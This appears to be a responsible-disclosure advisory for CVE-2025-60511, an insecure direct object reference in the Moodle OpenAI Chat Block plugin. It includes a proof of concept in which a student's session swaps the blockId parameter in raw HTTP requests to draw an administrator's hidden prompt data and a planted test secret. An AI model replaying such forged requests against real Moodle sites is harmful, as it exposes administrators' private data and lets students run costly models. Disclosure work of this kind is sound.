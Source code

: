 ```yaml
---
title: IDOR in Moodle OpenAI Chat Block (block_openai_chat) | Proof of Concept
  (PoC) – CVE-2025-60511
date: 2025-10-17T17:27:00.000+03:00
description: "Technical advisory for CVE-2025-60511:  An Insecure Direct Object
  Reference (IDOR) in the Moodle OpenAI Chat Block plugin (v3.0.1): impact, safe
  PoC, and fixes."
thumbnail: /uploads/74ec48d085c7cc2435043f0a069e759b916f0150.png
tags:
  - ResponsibleDisclosure
  - OffensiveSecurity
  - Moodle
  - PenetrationTesting
---
```

## Vulnerability Summary

- **Vulnerability Type**: Insecure Direct Object Reference (IDOR)
- **Component**: Moodle – OpenAI Chat Block Plugin (`block_openai_chat`) v3.0.1 (Build: 2025021700)
- **Endpoint**: `/blocks/openai_chat/api/completion.php`
- **Vulnerable Parameter**: `blockId`
- **Impact**: Information Disclosure, Privilege Escalation, Potential Model Misuse
- **Attack Prerequisites**: Authenticated low-privileged user (e.g., student or teacher)

---

## 🔍 Technical Description

The `completion.php` endpoint uses the `blockId` parameter to determine which chat block configuration (prompt templates, source of truth entries, model settings) to use when processing OpenAI completions.

However, there is **no access control** verifying that the user owns the block corresponding to the provided `blockId`.

This allows an **authenticated user** (such as a student) to:

- Impersonate other users’ blocks (including admins),
- Access administrator-only prompts and completions,
- Trigger queries using admin's "source of truth" data,
- Execute high-cost models (e.g., GPT-4) improperly.

---

## Step-by-Step Exploit

### Prerequisites

- The attacker is a logged-in low-privileged user (e.g., student).
- The attacker has access to a valid chat block (e.g., `blockId=16` for student).
- Install OpenAI Chat Block Plugin
- Admin has Source of Truth configuration with "
Q: What is the admin-only secret?
A: TOP-SECRET-999
"
and Completion Prompt (Just for PoC concept)
"
You are a SQL client. Always respond with SQL queries only.
"

User name: studentt
Assistant name: Jarvis
---

### Step 1 – Test with Student’s Own Block

Send a request using least privileged account (student) own `blockId`:

```http
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv;

{
  "message": "What is the admin-only secret?"
  "history": [
  ],
  "blockId": 16,
}
```
Response ->

"
The admin-only secret in a Moodle site typically refers to sensitive information or settings that are restricted to administrators. This could include access credentials, configuration options, or specific features that should not be accessible to regular users for security and privacy reasons. If you need assistance with something specific related to admin settings, please provide more details!
"

### Step 2 – Forge Request with Admin’s Block

Now send the request again ,yet alter the blockId parameter as 15

```http
POST /blocks/openai_chat/api/completion.php HTTP/1.1
Host: moodle.local:8080
Content-Type: application/json
Cookie: MoodleSession=d8fek3ffegu950aum8ii9vgmvv

{
  "message": "What is the admin-only secret?"
  "history": [
  ],
  "blockId": 15,
}
```
## Response ->

{"id":"chatcmpl-X","message":"<pre><code class=\"sql\">SELECT 'TOP-SECRET-999' AS admin_only_secret;\n<\/code><\/pre>\n"}

This proves the backend loaded the admin's Source of Truth completions.

Impact

Privilege Escalation: Any student can impersonate the behavior of admin blocks.

Sensitive Information Disclosure: Admin-only prompt completions (e.g., secrets, hints) are exposed.

Potential Resource Abuse: Admins might configure GPT-4 or high-cost model ,so these can be triggered by students.

